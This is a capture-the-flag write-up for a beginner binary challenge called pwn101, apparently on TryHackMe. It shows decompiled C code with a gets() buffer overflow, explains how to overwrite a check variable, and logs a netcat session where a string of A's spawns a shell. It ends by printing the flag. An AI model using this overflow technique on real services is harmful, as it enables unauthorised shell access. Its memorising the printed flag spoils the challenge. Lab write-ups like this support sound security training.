 # pwn101

nc 10.10.47.113 9001

decription: This should give you a start: 'AAAAAAAAAAA'

```bash
┌──(zeqzoq㉿zeqzoq)-[/mnt/c/Users/hzqzz/Downloads/pwn101]
└─$ file pwn101-1644307211706.pwn101
pwn101-1644307211706.pwn101: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=dd42eee3cfdffb116dfdaa750dbe4cc8af68cf43, not stripped
```

```bash
┌──(zeqzoq㉿zeqzoq)-[/mnt/c/Users/hzqzz/Downloads/pwn101]
└─$ checksec pwn101-1644307211706.pwn101
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/zeqzoq/.cache/.pwntools-cache-3.12/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] A newer version of pwntools is available on pypi (4.13.1 --> 4.14.1).
    Update with: $ pip install -U pwntools
[*] '/mnt/c/Users/hzqzz/Downloads/pwn101/pwn101-1644307211706.pwn101'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[60]; // [rsp+0h] [rbp-40h] BYREF
  int v5; // [rsp+3Ch] [rbp-4h]

  v5 = 1337;
  setup();
  banner(argc, argv);
  puts(
    "Hello!, I am going to shopping.\n"
    "My mom told me to buy some ingredients.\n"
    "Ummm.. But I have low memory capacity, So I forgot most of them.\n"
    "Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D\n");
  puts("Type the required ingredients to make briyani: ");
  gets(v4);
  if ( v5 == 1337 )
  {
    puts("Nah bruh, you lied me :(\nShe did Tomato rice instead of briyani :/");
    exit(1337);
  }
  puts("Thanks, Here's a small gift for you <3");
  return system("/bin/sh");
}
```

Looking at the source code, we just need the v5 ≠ 1337 to get `return system("/bin/sh");`

We can see that v4 is 60 bytes and the code use gets(v4) which is vulnerable. For this, we just need to overflow v4 past 60 bytes to overwrite v5. Based on the challenge description "AAAAAAAAAAA" then I just put more A's. and get bin shell, reading the flag.txt.

```bash
┌──(zeqzoq㉿zeqzoq)-[~]
└─$ nc 10.10.47.113 9001
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 101

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thanks, Here's a small gift for you <3
whoami
pwn101
ls
flag.txt
pwn101
pwn101.c
cat flag.txt
THM{7h4t's_4n_3zy_oveRflowwwww}
```

```
THM{7h4t's_4n_3zy_oveRflowwwww}
```
